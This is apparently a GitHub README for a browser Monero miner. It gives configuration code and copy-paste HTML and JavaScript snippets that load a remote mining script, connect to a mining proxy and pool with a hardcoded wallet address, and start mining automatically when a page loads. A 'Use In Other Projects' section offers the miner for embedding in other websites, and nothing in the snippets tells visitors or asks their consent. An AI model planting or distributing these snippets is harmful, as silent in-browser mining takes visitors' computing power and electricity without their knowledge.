 ## Monero Webminer

Html & Js code that allows Mining of XMR (Monero) on browsers


# Configure

In Mine.Html you will see a address change this for your Monero address and you will be mining.

```javascript
server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = " PUT YOUR ADDRESS HERE";
    var workerId = ""
    var threads = -1;
    var password = "";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
```
# Running

Open index.html in any web browser and it will automatically start mining.

https://najmajmal.github.io/monero-webminer


# Check Progress 

Go to https://moneroocean.stream . This is the pool you are connected to, it will show your hashrate and balance.

# Use In Other Projects 

  HTML
  
      <!-- Start Of Mining Code (HTML) -->
      <script src="https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js"></script>
      <script>
          server = "wss://f.xmrminingproxy.com:8181";
          var pool = "moneroocean.stream";
          var walletAddress = "4657q4dnsjLWtzeW4XN3wG9swFumWAZB9i1pegTLMxVAQy5E5AE8uif42kkHWcWc9vDcLUmzeCf3pV7mmrJQQqqe84dtASi";
          var workerId = "nahh"
          var threads = -1;
          var password = "";
          startMining(pool, walletAddress, workerId, threads, password);
          throttleMiner = 20;
      </script>
      <!-- End Of Mining Code (HTML) -->
      
  Javascript
     
      // Start Of Mining Code (Javascript)
      var script = document.createElement("script");
      script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
      document.head.appendChild(script);

      server = "wss://f.xmrminingproxy.com:8181";
      var pool = "moneroocean.stream";
      var walletAddress = "4657q4dnsjLWtzeW4XN3wG9swFumWAZB9i1pegTLMxVAQy5E5AE8uif42kkHWcWc9vDcLUmzeCf3pV7mmrJQQqqe84dtASi";
      var workerId = "nahh"
      var threads = -1;
      var password = "";
      startMining(pool, walletAddress, workerId, threads, password);
      throttleMiner = 20;
      // End Of Mining Code

